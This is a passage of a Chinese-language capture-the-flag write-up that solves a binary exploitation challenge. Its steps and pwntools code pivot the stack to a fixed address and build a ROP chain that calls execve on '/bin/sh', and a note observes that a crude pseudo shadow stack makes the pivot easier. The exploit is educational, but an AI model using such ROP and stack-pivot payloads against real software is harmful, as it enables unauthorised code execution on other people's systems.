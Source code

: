 
    io.recvuntil(b"stop reading until I receive the correct one.")
    send_payload(b"a")
    ```

2. 第二次循环中完成栈迁移：

    ```python
    try_addr = 0x0000000000401F0E
    new_stack = 0x31337000
    pop_rdi_ret = 0x0000000000402F7C
    pop_rsi_ret = 0x0000000000404669
    pop_rdx_2_ret = 0x00000000004AF0DB
    pop_rax_ret = 0x0000000000463DA7
    syscall_ret = 0x42EA86
    payload = flat(
        {
            0x00: [0x1111, 0x2222, 0x3333, 0x4444, new_stack],
            0x28: [try_addr + 1, 0xDEADBEEF, 0xCAFECAFE, 0x31337],
        }
    )
    send_payload(payload)
    ```

3. 传入 `"/bin/sh\x00"` 字符串并完成 ROP：

    ```python
    payload = flat(
        {
            0x00: [u64_ex(b"/bin/sh\x00"), 0x2222, 0x3333, 0x4444, new_stack + 0x10],
            0x28: [
                try_addr + 1,
                0x4DE4B0,
                pop_rdi_ret,
                0x31336FE0,
                pop_rsi_ret,
                0,
                pop_rdx_2_ret,
                0x31337010,
                0,
                pop_rax_ret,
                0x3B,
                syscall_ret,
            ],
        }
    )
    send_payload(payload)
    ```

> [!NOTE] 
> 解法的设计也是想说明「粗糙的保护可能反而会带来安全风险」，例如这里的伪·影子栈给栈迁移提供了便利。

完整利用脚本见 [canary_bypass-exp.py](./src/canary_bypass-exp.py)。

### CET Bypass

